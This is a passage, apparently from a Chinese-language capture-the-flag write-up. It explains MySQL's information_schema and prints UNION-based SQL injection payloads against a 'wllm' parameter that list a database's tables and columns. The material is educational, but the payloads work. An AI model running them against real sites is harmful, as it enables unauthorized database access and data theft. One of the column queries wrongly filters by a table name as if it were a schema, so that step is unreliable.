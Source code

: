 FROM information_schema.tables

information_schema.tables是 MySQL 的一个系统表，存储了数据库中所有表的元数据信息，包括表名、表类型、创建时间等

WHERE table_schema='test_db'

table_schema这是 `information_schema.tables` 表中的一个列，表示表所属的数据库名称

**`'test_db'`** ：这是你想要查询的数据库名称。这里过滤出属于 `test_db` 数据库的所有表。

```
?wllm=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='test_db'--+
```

![1742662788002](image/NSS/1742662788002.png)

得到两个表test_tb,users

用类似的方法查询两个表中的字段

```
?wllm=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='test_db'--+
?wllm=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='users'--+
```
